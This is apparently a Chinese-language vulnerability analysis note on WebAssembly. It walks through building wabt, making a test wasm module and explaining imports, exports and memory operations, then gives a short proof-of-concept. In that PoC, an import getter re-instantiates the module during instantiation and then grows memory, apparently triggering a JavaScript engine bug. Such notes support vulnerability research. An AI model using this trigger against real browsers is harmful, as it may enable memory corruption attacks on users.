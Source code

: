 ### wasm

wabt搭建：
```
git clone --recursive https://github.com/WebAssembly/wabt 
cd wabt
make
```

用 010 editer创建二进制文件test.wasm
![](./img/1.png)

```
# parse test.wasm and write test.wat
$ bin/wasm2wat test.wasm -o test.wat
```
![](./img/2.png)
详细内容可以看下这个文档：http://webassembly.org.cn/getting-started/js-api/

简单介绍一下这段代码：
- WebAssembly 模块可以通过 import 和 export 来导出和引入函数，在此处：(import "mod" "imp" (func (;0;) (type 0))) ，WebAssembly 引入了一个有两个层级的命名空间，同样的，我们必须提供一个两级的命名空间作为 import 对象传递给 instantiate。

```
  var ffi = {
    mod: {
      get imp() {
        console.log('getter');
        wasm2 = new WebAssembly.Instance(mod, {mod: {imp: function(){}}});
        spacer = new ArrayBuffer(0x10000);
        return function() {};
      }
    }
  };
```
- wasm当前有四个可用类型：
    - i32：32位整数
    - i64：64位整数
    - f32：32位浮点数
    - f64：64位浮点数

- 线性内存访问通过显式调用 load 和 store 运算符完成。i32.load: 加载4字节，转换为32位整数;i32.store: (不转换) 存储4字节。

- 总的来说就是导出了两个函数（一个读一个写），引入了一个函数，需要自己实现。

### Root Case

poc：
```
// raw_wasm = ...
var mod = WebAssembly.Module(raw_wasm);
var ffi = {
  mod: {
    get imp() {
      wasm2 = WebAssembly.Instance(mod, {mod: {imp: function(){}}});
      spacer = new ArrayBuffer(0x10000);
      return function() {};
    }
  }
};
wasm = WebAssembly.Instance(mod, ffi);
wasm2.exports.memory.grow(1);
// wasm.exports.XXX
```



